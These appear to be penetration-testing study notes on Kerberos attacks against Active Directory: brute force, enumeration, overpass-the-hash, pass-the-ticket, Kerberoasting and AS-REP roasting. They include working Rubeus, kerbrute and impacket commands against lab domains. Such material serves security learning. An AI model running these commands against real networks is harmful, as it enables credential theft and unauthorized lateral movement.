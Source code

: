 
### Attack Vectors
https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
https://www.tarlogic.com/en/blog/how-kerberos-works/

- Kerberos Bruteforce	
    - No domain account is needed to conduct the attack, just connectivity to the KDC.
    - Kerberos pre-authentication errors are not logged in Active Directory with a normal Logon failure event (4625), but rather with specific logs to Kerberos pre-authentication failure (4771).
    - Kerberos indicates, even if the password is wrong, whether the username is correct or not. This is a huge advantage in case of performing this sort of technique without knowing any username.
    - In Kerberos brute-forcing it is also possible to discover user accounts without pre-authentication required, which can be useful to perform an ASREPRoast attack.
    - Commands: `kerbrute.py -domain <domain_name> -users <users_file> -passwords <passwords_file> -outputfile <output_file>`(Linux), `Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>`(Windows)
- Kerbrute Enumeration - No domain access required. Possible to identify which users do exist on the domain(machine?).
- Ticket harvesting - access as a user required. Possible to harvest a TGT. Can be done with rubeus or impacket. 
- Password spraying - access as a user to the domain required. Possible to identify user who uses a certain password. Brute-forcing is possible too.
- OverPass the Has/Pass the Key
	- This attack aims to use user NTLM hash to request Kerberos tickets, as an alternative to the common Pass The Hash over NTLM protocol. Therefore, this could be especially useful in networks where NTLM protocol is disabled and only Kerberos is allowed as authentication protocol.
	- In order to perform this attack, the NTLM hash (or password) of the target user account is needed. Thus, once a user hash is obtained, a TGT can be requested for that account. Finally, it is possible to access any service or machine where the user account has permissions.
	- Linux flow:
		- Use hash to get TGT `python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7`
		- `export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache`
		- `python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass`, or `evil-winrm -H ...`
	- Windows flow:
		- `.\Rubeus.exe asktgt /domain:jurassic.park /user:velociraptor /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt`
		- `.\PsExec.exe -accepteula \\labwws02.jurassic.park cmd`
- Pass the ticket
	- This kind of attack is similar to Pass the Key, but instead of using hashes to request for a ticket, the ticket itself is stolen and used to authenticate as its owner. The way of recolecting these tickets changes from Linux to Windows machines, therefore each process will be introduced in its own section.
	- Use mimikatz or Rubeus to dump the ticket, then psexec to pass it to the target. 
- Kerberoasting - Access as any user required. Allows a user to get a service ticket for any service with a registered SPN. That ticket allows to crack the service password. Example command: `impacket-GetUserSPNs CONTROLLER.local/Machine1:Password1 -dc-ip 10.10.235.186 -request `. Rubeus: `Rubeus.exe kerberoast /outfile:hashes.kerberoast`.
	- The goal of Kerberoasting is to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts. Thus, part of these TGS tickets is encrypted with keys derived from user passwords. As a consequence, their credentials could be cracked offline.
	- Therefore, to perform Kerberoasting, only a domain account that can request for TGSs is necessary, which is anyone since no special privileges are required.
- AS-REP Roasting - Access as any user required. Rubeus can do that `Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast`, or use impacket-GetNPUsers, example: `impacket-GetNPUsers spookysec.local/svc-admin -request -no-pass   -dc-ip 10.10.54.141`
	- The ASREPRoast attack looks for users without Kerberos pre-authentication required. That means that anyone can send an AS_REQ request to the KDC on behalf of any of those users, and receive an AS_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline.
	- No domain account is needed to perform this attack, only connection to the KDC. However, with a domain account, an LDAP query can be used to retrieve users without Kerberos pre-authentication in the domain. Otherwise usernames have to be guessed.
